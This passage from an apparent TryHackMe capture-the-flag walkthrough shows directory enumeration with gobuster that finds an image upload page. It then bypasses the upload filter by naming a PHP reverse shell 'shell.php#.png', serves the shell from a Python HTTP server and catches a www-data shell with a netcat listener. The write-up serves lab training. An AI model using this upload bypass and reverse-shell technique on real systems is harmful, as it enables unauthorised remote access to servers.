   ```
  |_    Message signing enabled but not required
  ```

  ```
  gobuster dir -u http://10.10.89.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /css                  (Status: 301) [Size: 308] [--> http://10.10.89.16/css/]
  /cloud                (Status: 301) [Size: 310] [--> http://10.10.89.16/cloud/]
  Progress: 87664 / 87665 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When you visit `/cloud`, you will have a option to upload an image.

---

## ⚙️ Shell Access

- Make a classic PHP reverse shell, start a listener and upload a shell as `shell.php#.png`. You need to run a Python server as well.

  ```
  http://[YOUR-THM-IP]:80/shell.php#.png

  python3 -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.89.16 - - [03/Jun/2025 20:57:35] "GET /shell.php HTTP/1.1" 200 -
  ^C
  Keyboard interrupt received, exiting.

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.89.16] 33134
  Linux ip-10-10-89-16 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
   20:03:08 up 26 min,  0 users,  load average: 0.00, 0.00, 0.05
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Change it to Putty shell and let's get those flags.

---
